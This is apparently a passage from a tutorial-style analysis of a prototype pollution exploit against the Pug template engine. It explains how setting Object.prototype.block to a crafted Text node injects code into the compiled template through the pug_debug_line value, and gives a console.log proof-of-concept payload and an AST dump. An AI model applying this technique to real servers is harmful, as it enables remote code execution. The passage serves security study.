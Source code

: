 ```
;pug_debug_line = 1;
pug_html = pug_html + ", thank you for letting us know!\u003C\u002Fspan\u003E";
    }.call(this, "user" in locals_for_with ?
        locals_for_with.user :
        typeof user !== 'undefined' ? user : undefined));
    ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
    
Notice that 'console.log('this has been executed!!!!!')' is taken as a string and won't be executed. We need to attack the part of the code that can be potentially executed.

One more Prototype Pollution payload similar to 'Object.prototype.block' is 'Object.prototype.filename' (Refer line number 316 of index.js file in pug-code-gen module to know why this pollution works). Assigning any value to 'Object.prototype.filename' will also show up in the template function code but again, it will be in the form of a string and won't be executed.

We need to target the 'pug_debug_line = 1'. If we replace that value '1' with some of our code, then that will be executed.

How do we do that? By the following payload:
Object.prototype.block = {"type": "Text", "line": "console.log('hello there!')"};

The above line will appear in the 'Code' block of the AST again but check out the function:
visitCode: function(code)
more specifically, the line number 786 of index.js file in pug-code-gen module.
We are checking the following condition
if (code.block) {
	...
	this.visit(code.block, code);
	...
}

That visit() method will visit a node in the AST and converts that to JavaScript code that will be added in the template function.
After our pollution payload, the 'Code' block of the AST will be like this:

{
  type: "Block",
  nodes: [
    {
      type: "Tag",
      name: "span",
      selfClosing: false,
      block: {
        type: "Block",
        nodes: [
          {
            type: "Text",
            val: "Hello ",
            line: 1,
            column: 6,
          },
          {
            type: "Code",
            val: "user",
            buffer: true,
            mustEscape: true,
            isInline: true,
            line: 1,
            column: 12,
            block: {
              type: "Text",
              line: "console.log('hello there!')",
            },
```